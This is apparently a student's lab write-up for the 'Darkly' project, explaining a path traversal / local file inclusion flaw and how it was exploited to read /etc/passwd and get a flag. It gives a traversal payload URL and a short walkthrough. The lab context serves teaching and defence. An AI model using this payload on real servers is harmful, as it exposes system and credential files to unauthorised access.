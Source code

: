 # 📁 Path Traversal / Local File Inclusion (LFI) – MEMO

## 📌 Breach Summary
The Darkly website includes a file based on a user-supplied parameter, without proper validation or sanitization. This leads to a **Path Traversal / Local File Inclusion (LFI)** vulnerability, allowing access to sensitive server files (e.g., `/etc/passwd`) or source code.

---

## ✅ Step-by-Step Exploitation

### 1. 🔍 Locate the File Include Feature
Visit a URL such as:
```
http://<target-ip>/page?file=home
```
This parameter loads the content of `home.html` or similar files.

### 2. 💉 Inject Path Traversal Payload
Try replacing the parameter with:
```
http://<target-ip>/?page=../../../../../../../etc/passwd
```

### 📝 Sample walkthrough.txt

```text
1. Visited /page?file=home and identified file inclusion behavior
2. Changed file parameter to http://<target-ip>/?page=../../../../../../../etc/passwd
3. Server returned alert of /etc/passwd — confirmed path traversal
4. Retrieved the flag from a sensitive file
```

---

## 💬 What to Say During Evaluation

- Explain how file inclusion works and why user input should never be directly used in file paths.
- Demonstrate your payload and explain why it succeeded.
- Highlight the impact: disclosure of credentials, source code, or OS-level files.

---

## 📚 References

- OWASP A5: Security Misconfiguration
- OWASP Path Traversal Guide: https://owasp.org/www-community/attacks/Path_Traversal
- Tools used: browser, manual crafted URLs

✅ Practice reproducing this locally and explaining each step during your project defense.